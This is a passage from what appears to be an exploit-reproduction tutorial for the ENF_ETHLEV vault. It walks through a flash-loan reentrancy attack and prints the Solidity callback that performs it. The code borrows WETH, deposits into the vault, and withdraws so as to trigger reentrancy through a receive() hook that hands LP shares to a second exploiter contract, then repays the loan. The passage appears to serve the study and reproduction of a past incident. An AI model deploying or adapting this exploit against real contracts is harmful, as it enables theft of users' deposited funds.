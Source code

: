 #### **uniswapV3FlashCallback()**

* In this function, we'll implement the interaction with ENF\_ETHLEV after borrowing 10,000 ETH via flashloan. Essentially, this translates our workflow analysis from part 2 into code.
* Withdraw the WETH obtained from the flashloan back to ETH in this account.
* Read the existing assets in the ENF\_ETHLEV contract.
* Deposit an equivalent amount of ETH into the ENF\_ETHLEV contract.
* Call ENF\_ETHLEV's convertToAssets function to read the current LP shares.
* Call ENF\_ETHLEV's withdraw function (where the reentrancy occurs) to withdraw all ETH.
* The Exploiter (another attack contract) executes a withdrawal using the LP shares just received to obtain the corresponding amount of ETH.
* Repay the flashloan.

```solidity
function uniswapV3FlashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external {
        emit log_named_decimal_uint('[*] fee1', fee1, 18);

        WETH.withdraw(WETH.balanceOf(address(this)));
        ENF_ETHLEV.approve(address(ENF_ETHLEV), type(uint).max);
        uint256 assets = ENF_ETHLEV.totalAssets();
        emit log_named_decimal_uint("[*] Attacker's ether balance at the start", address(this).balance, 18);

        ENF_ETHLEV.deposit{value: assets}(assets, address(this)); 
        emit log_named_decimal_uint("[*] Attacker's ether balance after deposit", address(this).balance, 18);
        emit log_named_decimal_uint("[*] Attacker's LP share after deposit", ENF_ETHLEV.balanceOf(address(this)), ENF_ETHLEV.decimals());

        uint256 assetsAmount = ENF_ETHLEV.convertToAssets(ENF_ETHLEV.balanceOf(address(this)));
        ENF_ETHLEV.withdraw(assetsAmount, address(this)); 
        emit log_named_decimal_uint("[*] Attacker's LP share after withdrawing", ENF_ETHLEV.balanceOf(address(this)), ENF_ETHLEV.decimals());
        emit log_named_decimal_uint("[*] Attacker ether balance after withdrawing", address(this).balance, 18);

        exploiter.withdraw(); 

        WETH.deposit{value: address(this).balance}();
        emit log_named_decimal_uint("[*] Attacker's total WETH after attack", WETH.balanceOf(address(this)), WETH.decimals());

        uint256 amount = abi.decode(data, (uint256));
        WETH.transfer(address(Pair), fee1 + amount); 
        emit log_named_decimal_uint("[*] Attacker's total WETH after payback flashloan", WETH.balanceOf(address(this)), WETH.decimals());
    }       

    receive() external payable {
        if (msg.sender == Controller) {
            ENF_ETHLEV.transfer(address(exploiter), ENF_ETHLEV.balanceOf(address(this))-1000);
        }
       
    }
```
